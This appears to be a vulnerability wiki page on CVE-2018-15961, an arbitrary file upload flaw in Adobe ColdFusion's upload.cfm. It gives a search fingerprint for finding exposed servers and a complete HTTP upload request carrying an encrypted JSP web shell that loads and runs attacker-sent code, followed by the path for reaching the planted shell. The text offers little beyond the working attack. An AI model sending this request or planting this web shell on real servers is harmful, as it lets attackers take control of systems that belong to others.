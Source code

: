# Adobe ColdFusion upload.cfm Any file upload vulnerability CVE-2018-15961

## Vulnerability Description

Adobe ColdFusion has a vulnerability to upload any file. Through the vulnerability attacker, he can upload any file to control the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Adobe ColdFusion </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Adobe-ColdFusion" </span>

## Vulnerability reappears

Product official website

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628245289026-29811461-bb3c-4fc7-b594-b5b005f6e5f3.png)

Send data packets to upload any file

```php
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 918
Content-Type: multipart/form-data; boundary=e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Accept-Encoding: gzip

--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="file"; filename="b79f4282c451e975c357d9616acea7ba.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="path"

path
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628245376410-1ad8424a-c8ee-4894-86f0-1f858f29b230.png)

Access path again `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell.jsp`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628245895622-d98538f1-a05e-4356-b734-8b1f361a5c40.png)
